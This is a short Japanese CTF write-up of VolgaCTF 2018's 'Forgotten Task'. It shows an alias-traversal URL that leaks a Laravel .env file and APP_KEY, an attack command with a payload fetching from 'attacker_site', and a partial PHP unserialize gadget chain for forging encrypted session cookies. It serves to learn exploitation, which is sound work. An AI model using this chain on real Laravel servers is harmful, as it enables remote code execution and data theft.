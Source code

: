 ## Laravel / encrypt gadget in session with APP_KEY / alias traversal (Forgotten Task)
https://github.com/BlackFan/ctfs/tree/master/volgactf_2018_quals/forgotten_task  
- **entrypoint**  
`http://forgotten-task.quals.2018.volgactf.ru/laravel../.env`でalias traversalという手法が使えるらしい。どうやらサーバー側でのaliasの設定が良くないっぽい？(`/i/`を`/data/w3/images/`に変換するエイリアスで、`/i../`を`/data/w3/`と変換するミス？)  
https://qiita.com/no1zy_sec/items/e541f1c838874ff400bb  
ここにわかりやすい説明かいてた。  
これでLaravelのAPP_KEYを取得してセッションデータをヤバいやつにAPP_KEYで署名する以下のスクリプトを実行するらしい。  
よくわからん  
```txt
php laravel_attack.php base64:BTyS9a35xfMVYrNkvo8j0MClde4Jk6Tl/e+/+UCEyWA= "file_get_contents('http://attacker_site/rce_test');"
```
- **payload**  
```python
<?php
    /* Unserialize Chain */
    /* See also https://github.com/ambionics/phpggc/tree/master/gadgetchains/Laravel/RCE/1 */

        namespace Illuminate\Broadcasting {
            class PendingBroadcast {
                protected $events;
                protected $event;

                function __construct($events, $cmd) {
                    $this->events = $events;
                    $this->event = $cmd;
                }
            }
        }


        namespace Illuminate\Events {
            class Dispatcher {
                protected $listeners;

                function __construct($cmd) {
                    $this->listeners = [
                        $cmd => ['assert']
                    ];
                }
            }
        }

        namespace {

            function generateChain($code) {
                return serialize(new \Illuminate\Broadcasting\PendingBroadcast(new \Illuminate\Events\Dispatcher($code), $code));
            }

    /* // Unserialize Chain */

    /* Laravel Encryptor */

            function encrypt($value, $serialize = false) {
                global $cipher, $key;
                $iv = random_bytes(openssl_cipher_iv_length($cipher));
                $value = openssl_encrypt(
                    $serialize ? serialize($value) : $value,
                    $cipher, $key, 0, $iv
                );
```